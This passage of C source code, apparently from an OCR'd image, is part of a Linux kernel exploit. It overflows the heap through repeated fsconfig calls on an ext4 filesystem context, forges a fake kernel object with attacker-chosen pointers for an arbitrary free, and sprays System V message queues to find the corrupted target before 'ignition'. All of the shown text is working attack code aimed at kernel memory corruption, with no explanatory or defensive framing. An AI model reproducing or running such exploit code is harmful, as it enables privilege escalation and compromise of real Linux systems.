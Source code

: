         get_msg(targets[0], recieved, size-0x30, 0, IPC_NOWAIT | MSG_NOERROR | MSG_COPY);

        // misaligned arb free attack
        fd = fsopen("ext4", 0);
        if (fd < 0) 
        {
                puts("Opening");
                exit(-1);
        }

        strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
        for (int i = 0; i < 117; i++) {
            fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
        }
        puts("[*] Done heap overflow");

        char evil[0x40] = {0};
        uint64_t *evil_ptr = (uint64_t *)evil;
        memset(evil, 0x41, 0x30);
        evil_ptr[0] = next_target;
        evil_ptr[1] = prev_target;
        evil_ptr[4] = free_target;
        evil_ptr[5] = make_sec_happy;

         // in case null bytes in addresses
        if(strlen(evil) != 0x30)
        {
            puts("unable to continue given heap addresses");
            exit(-1);
        }

        puts("[*] Overflowing...");
        fsconfig(fd, FSCONFIG_SET_STRING, evil, "\x00", 0);
        puts("check heap to check preparedness for ignition");

        stuff_4k(16);

        for (int i = 0; i < P_SPRAY; i++)
        {
            memset(recieved, 0, sizeof(recieved));
            // rely on error code to determine if we have found our target which we overflowed into
            int ret = get_msg_no_err(targets[i], recieved, size+0x50-0x30, 0, IPC_NOWAIT | MSG_NOERROR | MSG_COPY);
            if (ret < 0)
            {
                ready = 1;
                ignition_target = i;
                break;
            }
        }

        if (!ready)
        {
            puts("nothing ready for ignition, trying again");
            // re-stuff freelist and stabilize
            stuff_4k(16);
        }
    }
